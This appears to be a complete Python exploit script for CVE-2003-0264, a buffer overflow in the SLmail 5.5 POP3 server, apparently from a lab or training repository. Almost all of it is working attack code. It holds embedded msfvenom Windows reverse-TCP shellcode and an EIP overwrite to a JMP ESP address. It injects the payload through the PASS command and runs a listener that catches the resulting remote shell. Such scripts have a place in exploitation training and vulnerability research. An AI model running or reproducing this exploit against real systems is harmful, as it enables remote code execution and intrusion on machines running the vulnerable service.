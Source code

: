 EXP
---

    #!/usr/bin/env python
    #
    # CVE-2003-0264 exploit based on:
    # * pwntools
    # * metasploit reverse_tcp payload
    # * SLmail 5.5 from https://www.exploit-db.com/apps/12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe

    from pwn import *
    from threading import Thread


    def generate_payload():
        # msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.15.101 LPORT=4444 -f python -v shellcode -a x86 --platform windows -b "\x00\x0d\x0a"
        shellcode = ""
        shellcode += "\xda\xcb\xba\xaf\xe1\x98\xd7\xd9\x74\x24\xf4\x5e"
        shellcode += "\x31\xc9\xb1\x52\x83\xc6\x04\x31\x56\x13\x03\xf9"
        shellcode += "\xf2\x7a\x22\xf9\x1d\xf8\xcd\x01\xde\x9d\x44\xe4"
        shellcode += "\xef\x9d\x33\x6d\x5f\x2e\x37\x23\x6c\xc5\x15\xd7"
        shellcode += "\xe7\xab\xb1\xd8\x40\x01\xe4\xd7\x51\x3a\xd4\x76"
        shellcode += "\xd2\x41\x09\x58\xeb\x89\x5c\x99\x2c\xf7\xad\xcb"
        shellcode += "\xe5\x73\x03\xfb\x82\xce\x98\x70\xd8\xdf\x98\x65"
        shellcode += "\xa9\xde\x89\x38\xa1\xb8\x09\xbb\x66\xb1\x03\xa3"
        shellcode += "\x6b\xfc\xda\x58\x5f\x8a\xdc\x88\x91\x73\x72\xf5"
        shellcode += "\x1d\x86\x8a\x32\x99\x79\xf9\x4a\xd9\x04\xfa\x89"
        shellcode += "\xa3\xd2\x8f\x09\x03\x90\x28\xf5\xb5\x75\xae\x7e"
        shellcode += "\xb9\x32\xa4\xd8\xde\xc5\x69\x53\xda\x4e\x8c\xb3"
        shellcode += "\x6a\x14\xab\x17\x36\xce\xd2\x0e\x92\xa1\xeb\x50"
        shellcode += "\x7d\x1d\x4e\x1b\x90\x4a\xe3\x46\xfd\xbf\xce\x78"
        shellcode += "\xfd\xd7\x59\x0b\xcf\x78\xf2\x83\x63\xf0\xdc\x54"
        shellcode += "\x83\x2b\x98\xca\x7a\xd4\xd9\xc3\xb8\x80\x89\x7b"
        shellcode += "\x68\xa9\x41\x7b\x95\x7c\xc5\x2b\x39\x2f\xa6\x9b"
        shellcode += "\xf9\x9f\x4e\xf1\xf5\xc0\x6f\xfa\xdf\x68\x05\x01"
        shellcode += "\x88\x56\x72\x06\x2d\x3f\x81\x18\xbc\xe3\x0c\xfe"
        shellcode += "\xd4\x0b\x59\xa9\x40\xb5\xc0\x21\xf0\x3a\xdf\x4c"
        shellcode += "\x32\xb0\xec\xb1\xfd\x31\x98\xa1\x6a\xb2\xd7\x9b"
        shellcode += "\x3d\xcd\xcd\xb3\xa2\x5c\x8a\x43\xac\x7c\x05\x14"
        shellcode += "\xf9\xb3\x5c\xf0\x17\xed\xf6\xe6\xe5\x6b\x30\xa2"
        shellcode += "\x31\x48\xbf\x2b\xb7\xf4\x9b\x3b\x01\xf4\xa7\x6f"
        shellcode += "\xdd\xa3\x71\xd9\x9b\x1d\x30\xb3\x75\xf1\x9a\x53"
        shellcode += "\x03\x39\x1d\x25\x0c\x14\xeb\xc9\xbd\xc1\xaa\xf6"
        shellcode += "\x72\x86\x3a\x8f\x6e\x36\xc4\x5a\x2b\x56\x27\x4e"
        shellcode += "\x46\xff\xfe\x1b\xeb\x62\x01\xf6\x28\x9b\x82\xf2"
        shellcode += "\xd0\x58\x9a\x77\xd4\x25\x1c\x64\xa4\x36\xc9\x8a"
        shellcode += "\x1b\x36\xd8"

        # EIP will point to known 'JMP ESP' from non ASLR-enabled module
        EIP = p32(0x5F4A358F)
        EBP = 'BBBB'

        NOP = '\x90'
        buf = NOP * BYTES_TO_FILL

        NOP_slide = NOP * 100

        return buf + EBP + EIP + NOP_slide + shellcode


    def attack():
        r = remote(RHOST, RPORT)

        server_helo = r.recvline()
        if server_helo.startswith('+OK '):
            log.info('Received server hello')
        else:
            log.error('Unknown string received: ' + server_helo)

        r.send('USER whatever\n')
        r.recvline()

        payload = generate_payload()

        r.send('PASS {}\n'.format(payload))
        r.shutdown()


    if __name__ == "__main__":
        # set target info
        RHOST = '192.168.15.100'
        RPORT = 110
        LPORT = 4444

        # determined with the help of x64dbg
        BYTES_TO_FILL = 80426

        # set context to target arch
        context.update(arch='i386', os='windows')

        thread = Thread(target=attack)
        thread.start()

        listener = listen(port=LPORT)
        listener.wait_for_connection()
        listener.interactive()

        thread.join()
